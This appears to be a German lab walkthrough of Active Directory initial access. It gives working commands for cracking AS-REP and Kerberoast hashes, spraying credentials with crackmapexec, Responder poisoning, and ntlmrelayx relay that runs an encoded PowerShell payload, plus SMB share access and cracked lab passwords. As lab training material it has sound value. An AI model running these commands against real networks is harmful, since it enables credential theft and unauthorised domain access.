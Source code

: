 ## Phase 4: Initial Access & Exploitation

### 4.1 Credential-based Attacks

#### Hash Cracking Pipeline
```bash
# AS-REP Hashes knacken (Hashcat)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --show

# Kerberoast Hashes knacken (John)
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt

# Erfolgreiche Cracks dokumentieren
john --show kerberoast.txt > cracked_passwords.txt
```

**Erwartete Ergebnisse basierend auf Lab-Daten:**
- `brandon.stark:iseedeadpeople` (AS-REP)
- `jon.snow:iknownothing` (Kerberoasting)

#### Credential Validation & Spraying
```bash
# Geknackte Credentials validieren
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
crackmapexec smb 192.168.20.0/24 -u brandon.stark -p iseedeadpeople

# Bekannte Default-Credentials testen
crackmapexec smb 192.168.20.0/24 -u samwell.tarly -p Heartsbane

# WinRM-Zugriff testen
crackmapexec winrm 192.168.20.0/24 -u jon.snow -p iknownothing
```

### 4.2 SMB Relay Attacks

#### Responder + ntlmrelayx Setup
```bash
# Responder für LLMNR/NBT-NS Poisoning
responder -I eth0 -rdwv &

# SMB Relay gegen Hosts ohne Signierung
echo -e "192.168.20.22\n192.168.20.23" > relay_targets.txt
ntlmrelayx.py -tf relay_targets.txt -smb2support -c "powershell.exe -enc <base64_payload>"

# Monitoring für gefangene Credentials
tail -f /usr/share/responder/logs/SMBv2-*.txt
```

### 4.3 Direct SMB Access

#### Authenticated SMB Enumeration
```bash
# Mit validierten Credentials SMB-Shares zugreifen
smbclient //192.168.20.11/NETLOGON -U jon.snow
# Passwort: iknownothing

# SYSVOL für Skripte und GPO-Dateien
smbclient //192.168.20.11/SYSVOL -U jon.snow

# Custom Shares auf SQL-Servern
smbclient //192.168.20.22/all -U samwell.tarly
# Passwort: Heartsbane
```
